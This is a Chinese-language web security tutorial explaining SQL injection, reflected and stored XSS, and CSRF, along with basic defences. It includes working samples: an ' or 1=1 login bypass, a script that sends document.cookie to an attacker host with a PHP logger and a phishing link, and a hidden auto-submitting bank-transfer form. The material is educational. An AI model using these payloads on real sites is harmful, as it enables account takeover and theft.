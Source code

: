 # 常见web漏洞（Sql注入、XSS、CSRF）原理以及攻防总结
## Sql注入
所谓SQL注入式攻击，就是攻击者把SQL命令插入到Web表单的输入域或页面请求的查询字符串，欺骗服务器执行恶意的SQL命令。 攻击者通过在应用程序预先定义好的SQL语句结尾加上额外的SQL语句元素，欺骗数据库服务器执行非授权的查询,篡改命令。<br/>
**攻击原理**
``` python
假设的登录查询
SELECT * FROM  users  WHERE login = 'victor' AND password = '123
Sever端代码
String sql = "SELECT * FROM users WHERE login = '" + formusr + "' AND password = '" + formpwd + "'";
输入字符
formusr = ' or 1=1
formpwd = anything
实际的查询代码
SELECT * FROM users WHERE username = ' ' or 1=1  AND password = 'anything' 
```
**如何防范**<br/>
 - 服务端特殊字符过滤: <、>、* 、& 等
 - 使用ORM框架
 - 参数化Sql查询语句
## Xss攻击
 XSS 全称(Cross Site Scripting) 跨站脚本攻击， 是Web程序中最常见的漏洞。指攻击者在网页中嵌入客户端脚本(例如JavaScript), 当用户浏览此网页时，脚本就会在用户的浏览器上执行，从而达到攻击者的目的.  比如获取用户的Cookie，导航到恶意网站,携带木马等。<br/>
 **分类： 反射型和持久型**<br/>
### 反射型
这种攻击不经过数据库，是从目标服务器通过错误信息、搜索结果等等方式“反射”回来的，攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击该链接时，注入脚本被传输到目标服务器上，然后服务器将注入脚本“反射”到受害者的浏览器上，从而在该浏览器上执行了这段脚本。<br/>
**这种漏洞主要存在于与用户有交互的地方，如搜索框，如果后台没有对搜索的内容进行过滤，而原封不动的将搜索内容展示在dom中，则存在Xss漏洞**<br/>
**详细攻击方式如下：**
 - 构建自己的黑客网站 如： hacker.qq.com
 - 该域名下有一 hack.php:
 ``` php
<?php 
$cookie = $_GET['q']; 
var_dump($cookie); 
$myFile = "cookie.txt"; 
file_put_contents($myFile, $cookie); 
?>
```
- 另外一 hack.js
``` js
var img = new Image();
img.src = "http://hacker.qq.com/hack.php?q="+document.cookie;
document.body.append(img);
```
- 构造一个连接来欺骗用户
``` html
<a href="http://xsstest.qq.com/search.php?q=%3Cscript+
src%3Dhttp%3A%2F%2Fhacker.qq.com%2Fhacker.js%3E%3C%2Fscript%3E&commend=
all&ssid=s5-e&search_type=item&atype=&filterFineness=&rr=
1&pcat=food2011&style=grid&cat=">点击就送998</a>
```
假设``` http://xsstest.qq.com ```就是存在xss漏洞的网站，search.php后的q参数 ,解码后为<br/>
``` <script src="http://hacker.qq.com/hacker.js"></script>``` <br/>
实际的作用是模拟用户在搜索框中输入<br/>
``` <script src="http://hacker.qq.com/hacker.js"></script> ```<br/>
后点击搜索。search.php未经处理的将其直接输入到页面， 黑客就可以获取用户在xsstest.qq.com网站的cookie。<br/>
**如何防范** <br/>
- 后台对敏感字符过滤
- 前端encodehtml
### 持久型
他和反射型XSS最大的不同就是，攻击脚本将被永久地存放在目标服务器的数据库和文件中。这种攻击多见于论坛，攻击者在发帖的过程中，将恶意脚本连同正常信息一起注入到帖子的内容之中。随着帖子被论坛服务器存储下来，恶意脚本也永久地被存放在论坛服务器的后端存储器中。当其它用户浏览这个被注入了恶意脚本的帖子的时候，恶意脚本则会在他们的浏览器中得到执行，从而受到了攻击。<br/>
如上例中的hack.js, 如果用户输入的内容是hack.js中的内容，而网站没有对用户输入的内容进行审查就存入数据库，然后在论坛帖子中展示，其他用户在浏览论坛的时候就会在浏览器中执行hack.js的js脚本。<br/>
**如何防范** <br/>
- 后台对敏感字符过滤
## CSRF
CSRF（Cross-site request forgery），中文名称：跨站请求伪造，也被称为：one click attack/session riding，缩写为：CSRF/XSRF。<br/>
你这可以这么理解CSRF攻击：攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账......造成的问题包括：个人隐私泄露以及财产安全。<br/>
**原理** <br/>
*网站A ：为恶意网站。<br/>
网站B ：用户已登录的网站。<br/>
当用户访问 A站 时，A站 私自访问 B站 的操作链接，模拟用户操作。<br/>
假设B站有一个删除评论的链接：http://b.com/comment/?type=delete&id=81723 <br/>
A站 直接访问该链接，就能删除用户在 B站 的评论。<br/>*
**CSRF 与 Xss 最大的区别是： CSRF不直接获取用户的cookie, 而Xss 则会直接获取用户的Cookie** <br/>
**如果用户访问了某一个银行的网站忘记登出了， 然后又访问了一个恶意网站，而恶意网站中存在以下代码，则发生CSRF** <br/>
``` html
<html>
<head>
  <script type="text/javascript">
    function steal()
    {
             iframe = document.frames["steal"];
             iframe.document.Submit("transfer");
    }
  </script>
</head>
<body onload="steal()">
 <iframe name="steal" display="none">
   <form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
     <input type="hidden" name="toBankId" value="11">
     <input type="hidden" name="money" value="1000">
   </form>
 </iframe>
</body>
</html>
```
**如何防范**
- 验证码
- Cookie Hashing(所有表单请求都包含同一个伪随机值)，**原则上来讲黑客无法获取用户的cookie，只是原则上来讲**
``` html
<?php
   $hash = md5($_COOKIE['cookie']);
 ?>
 <form method=”POST” action=”transfer.php”>
   <input type=”text” name=”toBankId”>
   <input type=”text” name=”money”>
   <input type=”hidden” name=”hash” value=”<?=$hash;?>”>
   <input type=”submit” name=”submit” value=”Submit”>
 </form>
```
然后在服务器端进行Hash值验证。
